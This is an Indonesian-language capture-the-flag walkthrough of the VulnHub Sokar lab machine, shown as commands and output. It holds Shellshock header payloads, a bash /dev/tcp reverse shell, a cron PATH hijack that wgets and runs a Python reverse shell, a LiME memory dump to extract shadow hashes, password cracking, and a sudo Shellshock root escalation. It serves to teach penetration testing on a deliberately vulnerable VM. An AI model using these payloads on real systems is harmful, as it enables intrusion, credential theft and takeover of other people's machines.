


# Sokar Writeup - Alternatif 1
Bahasa Indonesia

# [#] Reconnaissance

Hal pertama yang harus dicari tahu adalah alamat IP dari mesin Sokar.
Karena kita hubungkan Sokar ke host-only adapter kita setidaknya tahu Sokar memiliki IP di range alamat tersebut. 
Untuk kasus ini Sokar terhubung ke *vboxnet0* dan di jaringan 192.168.56.0/24. 
Kita sedikti melakukan "curent" dengan mencatat alamat MAC.
Kita gunakan netdiscover untuk ARP-scan satu jaringan di vboxnet0

~~~~
# netdiscover -i vboxnet0 -r 192.168.56.0
Currently scanning: Finished!   |   Screen View: Unique Hosts                 
                                                                               
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.100  08:00:27:33:1f:30      1      60  Cadmus Computer Systems     
 192.168.56.101  08:00:27:f2:40:db      1      42  Cadmus Computer Systems
~~~~

IP mesin Sokar adalah 192.168.56.101. 
Coba ping mesin tersebut namun tak ada jawaban. 
Sepertinya paket yang kita kirim di-*drop*. Ada rule firewall, apakah ada rule firewall lain?
Coba kita scan port yang ada. Karena kita bermain di mesin boot2root, kita tak apa-apa gunakan -T5 yang agresif.

~~~~
# nmap -v -A -sT -Pn -p1-65535 -T5 192.168.56.101

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2016-11-28 20:24 WIB
NSE: Loaded 138 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:24
Completed NSE at 20:24, 0.00s elapsed
Initiating NSE at 20:24
Completed NSE at 20:24, 0.00s elapsed
Initiating ARP Ping Scan at 20:24
Scanning 192.168.56.101 [1 port]
Completed ARP Ping Scan at 20:24, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:24
Completed Parallel DNS resolution of 1 host. at 20:24, 15.50s elapsed
Initiating Connect Scan at 20:24
Scanning 192.168.56.101 [65535 ports]
Connect Scan Timing: About 4.49% done; ETC: 20:36 (0:10:59 remaining)
Connect Scan Timing: About 9.06% done; ETC: 20:36 (0:10:12 remaining)
Connect Scan Timing: About 13.63% done; ETC: 20:36 (0:09:36 remaining)
Connect Scan Timing: About 18.67% done; ETC: 20:35 (0:09:00 remaining)
Connect Scan Timing: About 23.70% done; ETC: 20:35 (0:08:26 remaining)
Connect Scan Timing: About 28.73% done; ETC: 20:35 (0:07:51 remaining)
Connect Scan Timing: About 33.75% done; ETC: 20:35 (0:07:18 remaining)
Connect Scan Timing: About 38.77% done; ETC: 20:35 (0:06:44 remaining)
Connect Scan Timing: About 43.82% done; ETC: 20:35 (0:06:11 remaining)
Connect Scan Timing: About 48.84% done; ETC: 20:35 (0:05:37 remaining)
Connect Scan Timing: About 53.87% done; ETC: 20:35 (0:05:04 remaining)
Connect Scan Timing: About 58.90% done; ETC: 20:35 (0:04:31 remaining)
Connect Scan Timing: About 63.94% done; ETC: 20:35 (0:03:57 remaining)
Connect Scan Timing: About 69.42% done; ETC: 20:35 (0:03:21 remaining)
Discovered open port 591/tcp on 192.168.56.101
Connect Scan Timing: About 79.30% done; ETC: 20:35 (0:02:07 remaining)
Completed Connect Scan at 20:33, 499.80s elapsed (65535 total ports)
Initiating Service scan at 20:33
Scanning 1 service on 192.168.56.101
Completed Service scan at 20:33, 6.06s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 192.168.56.101
NSE: Script scanning 192.168.56.101.
Initiating NSE at 20:33
Completed NSE at 20:33, 0.31s elapsed
Initiating NSE at 20:33
Completed NSE at 20:33, 0.00s elapsed
Nmap scan report for 192.168.56.101
Host is up (0.00032s latency).
Not shown: 65534 filtered ports
PORT    STATE SERVICE VERSION
591/tcp open  http    Apache httpd 2.2.15 ((CentOS))
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.15 (CentOS)
|_http-title: System Stats
MAC Address: 08:00:27:F2:40:DB (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
Uptime guess: 0.056 days (since Mon Nov 28 19:12:19 2016)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.56.101

NSE: Script Post-scanning.
Initiating NSE at 20:33
Completed NSE at 20:33, 0.00s elapsed
Initiating NSE at 20:33
Completed NSE at 20:33, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 525.92 seconds
           Raw packets sent: 41 (4.308KB) | Rcvd: 9 (476B)
~~~~

Terlihat bahwa hanya port 591 yang terbuka. Port tersebut ternyata diisi oleh Apache HTTPD. Artinya ada web service di sana dengan versi 2.2.15.
Apakah kita perlu mengeksploit Apache? Mari tampung dulu.
Buka browser dan pergi ke alamat http://192.168.56.101:591/ sehingga akan tampil seperti ini.

Tampak seperti hasil dari utility. Sedikit cari info berdasarkan apa yang ditampilkan, ternyata itu adalah output dari perintah iostat.

Coba intip source-code. Kita menemukan sesuatu yang menarik.

`<iframe frameborder=0 width=800 height=600 src="/cgi-bin/cat"></iframe>`

Terdapat iframe ke /cgi-bin/cat. Artinya ada request lagi ke sana. CGI adalah mekanisme yang lawas untuk menampilkan halaman dinamis dengan bantuan script atau binary yang akan dipanggil oleh web server.

Coba enumerasi, apakah ada direktori lain?

`# dirb http://192.168.56.101:591/ /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

Tak ada sesuatu yang menarik jadi kita yakin bahwa jalan masuk kita hanyalah ini.

Mari bahas CGI sejenak. Mekanisme CGI sangat sederhana. Ia bisa berupa script atau program yang dapat ditulis dalam bahasa apa saja. Web server kemudian memanggil program itu.
Darimana program mendapatkan argumen? Argumen semacam request dan informasi lainnya akan dilewatkan ke environment.
Ini menjadi menarik. Sebuah vulnerability di bash bernama Shellshock (https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) diketahui membuat kita bisa memberikan
perintah shell apapun yang dapat dieksekusi oleh shell.

Mari test sejenak.

~~~~
# curl -H "user-agent: () { :; }; echo; echo 'Vulnerable'" http://192.168.56.101:591/cgi-bin/cat
Vulnerable
Content-type: text/html

<pre>
Mon Nov 28 19:35:13 GMT 2016
19:35:13 up 7:27, 0 users, load average: 0.00, 0.00, 0.00
 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address               Foreign Address             State      
tcp        0      0 :::591                      :::*                        LISTEN      
udp        0      0 0.0.0.0:68                  0.0.0.0:*                               
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node Path
unix  4      [ ]         DGRAM                    8287   /dev/log
unix  2      [ ACC ]     STREAM     LISTENING     6971   @/com/ubuntu/upstart
unix  2      [ ]         DGRAM                    7114   @/org/kernel/udev/udevd
unix  2      [ ]         DGRAM                    8886   
unix  2      [ ]         DGRAM                    8467   
unix  3      [ ]         DGRAM                    7130   
unix  3      [ ]         DGRAM                    7129   

Linux 2.6.32-504.1.3.el6.x86_64 (sokar) 	11/28/2016 	_x86_64_	(1 CPU)

avg-cpu:  %user   %nice %system %iowait  %steal   %idle
           0.01    0.00    0.02    0.09    0.00   99.89

Device:            tps   Blk_read/s   Blk_wrtn/s   Blk_read   Blk_wrtn
sda               0.42         2.50         4.43      66938     118936
sdb               0.01         0.10         0.00       2700          0

</pre>
~~~~

Ada string "Vulnerable", artinya perintah kita berhasil dieksekusi. Kita bisa inject perintah shell apapun melalui user-agent di header.

# [#] Eksploitasi 1

Karena malas menulis banyak dan otak-atik header setiap kali melakukan request sebaiknya kita buat script kecil untuk kebutuhan kita.
Script [comm.py](comm.py "comm.py") digunakan untuk mengirimkan request. Kita tinggal memasukkan perintah shell apa yang ingin kita eksekusi di prompt "send $ "
Ada baiknya kita menuliskan path secara utuh, namun untuk sebagian besar kasus kita bisa gunakan relative path karena kita telah mengekspor $PATH

Alternative lainnya adalah menggunakan fitur Repeater yang ada di burp-suite, tapi tampaknya merepotkan untuk kasus ini.

Identifikasi user sekarang
~~~~
send $ id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~~

Lihat direktori home user
~~~~
send $ ls -la /home
total 16
drwxr-xr-x.  4 root    root    4096 Dec 30  2014 .
dr-xr-xr-x. 22 root    root    4096 Nov 28 12:07 ..
drwx------   2 apophis apophis 4096 Jan  2  2015 apophis
drwxrwxrwx.  2 bynarr  bynarr  4096 Jan 27  2015 bynarr
~~~~

Cari tahu file apa saja yang dipunyai oleh bynarr (dapat diakses bynarr)

~~~~
send $ ls -lah /home/bynarr
total 36K
drwxrwxrwx. 2 bynarr bynarr 4.0K Jan 27  2015 .
drwxr-xr-x. 4 root   root   4.0K Dec 30  2014 ..
-rw-------. 1 bynarr bynarr    0 Jan 27  2015 .bash_history
-rw-r--r--. 1 bynarr bynarr   18 Feb 21  2013 .bash_logout
-rw-r--r--. 1 bynarr bynarr  178 Nov 12  2014 .bash_profile
-rw-r--r--. 1 bynarr bynarr  124 Feb 21  2013 .bashrc
-rwxr-xr-x  1 root   root    368 Jan 27  2015 lime
-rw-------  1 root   root    11K Nov 13  2014 lime.ko

send $ find / -user bynarr -print 2>/dev/null
/home/bynarr
/home/bynarr/.bash_logout
/home/bynarr/.bashrc
/home/bynarr/.bash_profile
/home/bynarr/.bash_history
/tmp/stats
/var/spool/mail/bynarr
~~~~

Apa itu lime? Ada di home bynar dan dimiliki oleh root.

~~~~
send $ file /home/bynarr/lime
/home/bynarr/lime: Bourne-Again shell script text executable

send $ /bin/cat /home/bynarr/lime
#!/bin/bash
echo """
==========================
Linux Memory Extractorator
==========================
"
echo "LKM, add or remove?"
echo -en "> "

read -e input

if [ $input == "add" ]; then

	/sbin/insmod /home/bynarr/lime.ko "path=/tmp/ram format=raw"

elif [ $input == "remove" ]; then

	/sbin/rmmod lime

else

	echo "Invalid input, burn in the fires of Netu!"

fi
~~~~

Ternyata perangkat untuk forensik. Lebih tepatnya adalah sebuah LKM (Linux Kernel Module) atau driver yang bisa mengekstrak isi memori yang sedang berjalan. Hasilnya akan diletakkan di /tmp/ram dengan format raw.

Selain itu /tmp/stats dan /var/spool/mail/bynarr tampak menarik. Mari mulai ke /tmp/stats.

~~~~
send $ ls -la /tmp/stats
-rw-rw-r-- 1 bynarr bynarr 1380 Nov 28 19:47 /tmp/stats
~~~~

Setelah menjalankan ls -la berkali-kali terhadap /tmp/stats diketahui bahwa file ini memiliki timestamp yang berubah-ubah. Kemungkinan besar isi file ini di-generate setiap 1 menit. Ada cron di sini.
Tapi yang lebih menarik adalah karena user dan group pemiliknya adalah bynarr. Jadi, cron ini berjalan untuk user bynarr.

Aku tertarik kepada isi dari /var/www/cgi-bin/cat jadi mari lihat isinya:

~~~~
send $ /bin/cat /var/www/cgi-bin/cat
#!/bin/bash

echo "Content-type: text/html";
echo ""

/bin/cat << EOM
<pre>
EOM

echo `date`
echo `uptime`
echo " "
/bin/cat /tmp/stats

/bin/cat << EOM
</pre>
EOM
~~~~

Baiklah dia memberikan response dengan tanggal, uptime, dan isi dari /tmp/stats.

Sekarang intip /var/spool/mail/bynarr. 

~~~~
send $ ls -la /var/spool/mail/bynarr
-rw-rw-r--. 1 bynarr mail 551 Dec 30  2014 /var/spool/mail/bynarr
~~~~

readable oleh siapapun. Mari intip.

~~~~
send $ /bin/cat /var/spool/mail/bynarr
Return-Path: <root@sokar>
Delivered-To: bynarr@localhost
Received:  from root by localhost
To: <bynarr@sokar>
Date: Thu, 13 Nov 2014 22:04:31 +0100
Subject: Welcome

Dear Bynarr.  Welcome to Sokar Inc. Forensic Development Team.
A user account has been setup for you.

UID 500 (bynarr)
GID 500 (bynarr)
    501 (forensic)

Password 'fruity'.  Please change this ASAP.
Should you require, you've been granted outbound ephemeral port access on 51242, to transfer non-sensitive forensic dumps out for analysis.

All the best in your new role!

  -Sokar-
~~~~

Oke, bad practice untuk mengirimkan informasi login ke sini. Password akun bynarr adalah 'fruity' dan semoga tidak diubah.
Informasi lain yang didapat adalah firewall mengijinkan akses ke luar dengan tujuan port 51242.

Oh, dan dia menyebut forensic dump? Mungkin karena itu ada file lime.

Untuk bisa login ke mesin kita perlu reverse shell.

# [#] Eksploitasi 2

Pastikan kita memperbolehkan port 51242 di tempat kita diakses dari luar.

`# iptables -A INPUT -p tcp --dport 51242 -j ACCEPT`

Mari coba gunakan netcat untuk listening di port 51242

~~~~
# nc -lvp 51242
Listening on [0.0.0.0] (family 0, port 51242)
~~~~

Kemudian kita coba bikin reverse shell. Berdasarkan cheatsheet di [sini](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse shell cheatsheet") kita coba reverse shell bash.

~~~~
send $ bash -i >& /dev/tcp/192.168.56.1/51242 0>&1
Traceback (most recent call last):
  File "./comm.py", line 11, in <module>
    print requests.get('http://192.168.56.101:591/cgi-bin/cat', headers=headers).text.strip()
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 70, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 56, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 475, in request
    resp = self.send(prep, **send_kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 596, in send
    r = adapter.send(request, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/adapters.py", line 473, in send
    raise ConnectionError(err, request=request)
requests.exceptions.ConnectionError: ('Connection aborted.', BadStatusLine("''",))
~~~~

Blank, tak ada koneksi masuk ke tempat kita. Ada apa? Mungkin firewall block akses kita. Ah, bisa jadi hanya bynarr yang boleh mengakses ke luar lewat port 51242. Iptables memungkinkan hal ini.

Ada dua pilihan sekarang.
* Kita perlu download reverse shell dari luar dan file itu dimiliki oleh bynarr.
* Kita perlu spawn sebuah tty yang bisa kita gunakan untuk login sebagai bynarr kemudian connect ke listener.

Jika menggunakan pilihan pertama kita perlu membuat file. Tapi /tmp/stats dimiliki oleh bynarr dan di-generate otomatis, mungkin kita bisa manfaatkan ini atau setidaknya mencari tahu cara generate file sebagai bynarr.
Jika menggunakan pilihan kedua kita butuh tty.

Oke, mari coba pilihan pertama. Kita tahu bahwa /tmp/stats di-generate oleh cron yang dijalankan untuk user bynarr. /tmp/stats adalah hasil dari iostat. Bisakah kita override si iostat,
bikin suatu script bernama iostat yang dipanggil alih-alih yang ada di /usr/bin/iostat. Periksa profile bash yang ada di /home/bynarr/.bash_profile dan kita menemukan satu baris yang menarik:

`PATH=.:$PATH:$HOME/bin`

Ya! Dia akan lihat direktori saat ini terlebih dahulu baru lihat $PATH dan $HOME/bin. Ketika cron berjalan, dia akan melihat ini.

Waktunya mengeksploitasi crontab. Kita akan download reverse shell dengan bantuan cron. Yang paling mudah adalah menggunakan web server di lokal untuk host file shell. Kemudian jalankan shell. Semua perintah akan dilaksanakan oleh iostat bikinan kita.

Masih menggunakan [cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse shell cheatsheet"), kita gunakan [script python](reverse.py "Python Reverse Shell").

Buka /etc/apache2/ports.conf dan pastikan kita listen di port 51242. Kemudian jalankan apache. Sesuaikan dengan kondisi di lokal.

~~~~
# nano /etc/apache2/ports.conf
# apachectl start
# cp reverse.py /var/www/html/reverse.py
~~~~

Kemudian gunakan comm.py kembali untuk membuat file iostat di /home/bynarr

`send $ echo -e 'wget http://192.168.56.1:51242/reverse.py -O /tmp/reverse.py'>/home/bynarr/iostat && chmod +x /home/bynarr/iostat`

Tunggu satu menit sampai cron dijalankan. Pastikan /tmp/reverse.py ada. Kemudian overwrite iostat supaya menjalankannya.

`send $ echo -e 'python /tmp/reverse.py'>/home/bynarr/iostat`

Matikan apache dan nyalakan listener

~~~~
# apachectl2 stop
# nc -lvp 51242
~~~~

Jika tak ada halangan, kita dapat reverse shell.

# [#] Eksploitasi 3

coba sudo

~~~~
sh-4.1$ sudo su
sudo su
[sudo] password for bynarr: fruity
Sorry, user bynarr is not allowed to execute '/bin/su' as root on sokar.
~~~~

Tidak boleh sudo su. Sekarang periksa apa saja state sudo kita.

~~~~
sh-4.1$ sudo -l
sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime
~~~~

Kita bisa menjalankan /home/bynarr/lime dengan sudo. Baiklah.

~~~~
sh-4.1$ cd /home/bynarr
sh-4.1$ sudo ./lime

==========================
Linux Memory Extractorator
==========================

LKM, add or remove?
> add
~~~~

Mari lihat hasilnya di /tmp/ram

~~~~
sh-4.1$ ls -la /tmp/ram
ls -la /tmp/ram
-r--r--r-- 1 root root 267971584 Nov 29 01:48 /tmp/ram
~~~~

Readable oleh semua. Coba kita dump string yang ada di sana. Kita berharap ada isi dari /etc/shadow di sana.
Kita cari untuk user apophis dan root.

~~~~
sh-4.1$ strings /tmp/ram | grep "apophis"
apophis:$6$0HQCZwUJ$rYYSk9SeqtbKv3aEe3kz/RQdpcka8K.2NGpPveVrE5qpkgSLTtE.Hvg0egWYcaeTYau11ahsRAWRDdT8jPltH.:16434:0:99999:7:::
apophis
apophis:x:502:
apophis.
apophis
apophis.
apophis
apophis
apophis
apophis
apophis
apophis
apophis
apophis

sh-4.1$ strings /tmp/ram | grep "root:"
strings /tmp/ram | grep "root:"
root:$6$cWQYjirZ$rADNjUFSiHmYp.UVdt4WYlmALhMXdkg9//9yuodQ2TFfiEWlAO0J6PRKesEfvu.3dfDb.7gTGgl/jesvFWs7l0:16434:0:99999:7:::
chown root:root /tmp/.ICE-unix
Hroot:x:0:
chown root:root /tmp/.ICE-unix
chown root:root /tmp/.ICE-unix
root:x:0:
"new_root: 0x%08lx, put_old: 0x%08lx", ((unsigned long)(REC->new_root)), ((unsigned long)(REC->put_old))
~~~~

Ada! Hasilnya mungkin akan berbeda-beda tergantung kondisi memory saat itu. Tapi yang penting kita dapatkan [ini](shadow "/etc/shadow"):

~~~~
apophis:$6$0HQCZwUJ$rYYSk9SeqtbKv3aEe3kz/RQdpcka8K.2NGpPveVrE5qpkgSLTtE.Hvg0egWYcaeTYau11ahsRAWRDdT8jPltH.:16434:0:99999:7:::
root:$6$cWQYjirZ$rADNjUFSiHmYp.UVdt4WYlmALhMXdkg9//9yuodQ2TFfiEWlAO0J6PRKesEfvu.3dfDb.7gTGgl/jesvFWs7l0:16434:0:99999:7:::
~~~~

dump [/etc/passwd](passwd "/etc/passwd") dan fokuskan ke apophis dan root.

~~~~
sh-4.1$ grep -E '^apophis|^root' /etc/passwd
grep -E '^apophis|^root' /etc/passwd
root:x:0:0:root:/root:/bin/bash
apophis:x:501:502::/home/apophis:/bin/bash
~~~~

Gunakan John The Ripper dengan wordlist rockyou.txt untuk cracking. Aku gunakan 8 process untuk crack. Selamat berjuang CPU!

~~~~
# unshadow passwd shadow > sokar.db
# john --wordlist=/usr/share/wordlists/rockyou.txt --fork=8 sokar.db
~~~~

Aku dapatkan password apophis adalah "overdrive" tapi tak dapat password root.
Masuk sebagai apophis dari bynarr.

~~~~
sh-4.1$ su - apophis
su - apophis
standard in must be a tty
~~~~

Ditolak. Sepertinya kita harus upgrade.

~~~~
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

[bynarr@sokar ~]$ su - apophis
su - apophis
Password: overdrive

[apophis@sokar ~]$ id
id
uid=501(apophis) gid=502(apophis) groups=502(apophis)
~~~~

Berhasil masuk sebagai apophis.

# [#] Privilege Escalation

Setelah baca-baca tentang Shellshock, kita bisa memanfaatkan shellshock untuk mendapatkan privilege root.
Spesifiknya, kita menggunakan lime sekali lagi untuk loncatan.

~~~~
sh-4.1$ sudo PS1="() { :;}; /bin/sh" /home/bynarr/lime
sudo PS1="() { :;}; /bin/sh" /home/bynarr/lime

sh-4.1# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~~

Sip!

Mari kita lihat isi dari direktori /root untuk mencari flag.

~~~~
sh-4.1# ls -la /root
ls -la /root
total 36
dr-xr-x---.  2 root root 4096 Jan 15  2015 .
dr-xr-xr-x. 22 root root 4096 Nov 29 12:36 ..
-rw-------.  1 root root    0 Jan 27  2015 .bash_history
-rw-r--r--.  1 root root   18 May 20  2009 .bash_logout
-rw-r--r--.  1 root root  176 May 20  2009 .bash_profile
-rw-r--r--.  1 root root  176 Sep 23  2004 .bashrc
-rw-r--r--   1 root root  678 Jan  2  2015 build.c
-rw-r--r--.  1 root root  100 Sep 23  2004 .cshrc
-rw-r--r--   1 root root  837 Jan 15  2015 flag
-rw-r--r--.  1 root root  129 Dec  3  2004 .tcshrc
~~~~

Ada dan mari lihat isinya.

~~~~
sh-4.1# cat /root/flag
cat /root/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
~~~~

boot2root ini dibuat untuk memeringati ulang tahun VulnHub.

Selamat menunggang komodo!
